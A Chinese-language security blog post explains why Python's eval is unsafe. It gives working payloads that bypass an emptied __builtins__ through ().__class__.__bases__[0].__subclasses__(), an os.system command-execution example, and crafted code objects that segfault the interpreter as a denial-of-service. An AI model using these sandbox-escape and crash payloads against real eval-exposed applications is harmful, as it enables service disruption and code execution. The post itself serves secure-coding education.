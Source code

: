 ```yaml
---
title: Python的Eval和字节码
date: 2020-01-02 18:50:38
author: repoog
summary: 本文介绍在Python程序中如何利用不安全的函数evil来实现对于拒绝服务攻击代码的执行，以及其攻击原理。
comments: true
tags:
  - Python
  - 字节码
  - 安全开发
  - 拒绝服务
  - 恶意代码
categories:
  - 软件安全
---
```


有人在Twitter上发了张图，显示Python官方的示例打码中使用了不安全的函数eval，用"intext:eval site:svn.python.org filetype:py"可以找到更多示例代码。有人说既然能运行Python，有没有用eval不重要。无论在哪种编程语言中，eval函数都是不安全的函数，要慎用，这是良好编程习惯的问题，其次，像开启Debug模式的Flask应用，即便不直接接触系统，也可以通过eval do evil。

Python的内建函数 eval 完整函数定义是eval(source, globals=None, locals=None)，字符串或代码对象传入source参数执行Python代码，执行的全局上下文和本地上下文环境通过globals和locals定义。比如通过eval("\_\_import\_\_('os').system('ls')")执行ls命令。

\_\_import\_\_是import的内部实现方式，返回的是参数传入的模块，而\_\_import\_\_本身也是内建built-in函数，因此可以通过设置eval的globals参数，将\_\_builtins\_\_对象置空来禁用builtins对象相关的内建函数和常量，比如\_\_import\_\_、print、True、None。

``` Python
eval("__import__('os').system('ls')", {'__builtins__':{}})
```

全局环境\_\_builtins\_\_置空后，eval执行将返回函数未定义的错误，包括基类object。但\_\_builtins\_\_对象并不包含list、tuple、\_\_class\_\_（获取实例所属的类）、\_\_bases\_\_（获取类的基类）、\_\_subclasses\_\_（获取类的子类），而list和tuple也是object类的子类。因此通过list实例或tuple实例可以获取到object类，进而获取到所有的类 ，从而绕过\_\_builtins\_\_对象被禁用而无法使用object类。

``` Python
().__class__.__bases__[0].__subclasses__()
[].__class__.__bases__[0].__subclasses__()
```

通过以上代码可以获取object类的所有子类，结合列表推导，可以得到任意类对象：

``` Python
[c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == 'code'][0]
```

从class code的\_\_doc\_\_可知，这个类的构造函数可以用于创建新的代码对象（即PyCodeObject\* PyCode\_New()），代码对象是描述字节码的结构，字节码继而在Python虚拟机中执行，但代码对象未绑定到具体函数。PyCode\_New()有13个必填参数，第6个参数是字节码（代码对象的co\_code属性），第13个参数是字节码的行号表（代码对象的co\_lnotab属性）。

``` Python
[c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == 'code'][0](0, 0, 0, 0, 0, b'', (), (), (), '', '', 0, b'')
```

以上代码创建的代码对象被eval调用，会因为段错误导致Python解释器退出，即拒绝服务攻击。

``` Python
eval([c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == 'code'][0](0, 0, 0, 0, 0, b'hello', (), (), (), '', '', 0, b'', (), ()), {"__builtins__":{}})
```

或者结合class function的函数对象（PyObject\* PyFunction\_New），用字符串（字节码参数不能为空）传入eval产生同样的效果。

``` Python
eval("[c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == 'function'][0]([c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == 'code'][0](0, 0, 0, 0, 0, b'b', (), (), (), '', '', 0, b'', (), ()), {})()", {"__builtins__":{}})
```

如果没有内建函数的限制，compile可以更简单地将py文件或py字符串编译成代码对象。如果代码对象结构的各个属性传入正确，可以通过eval或exec正确执行字节码。
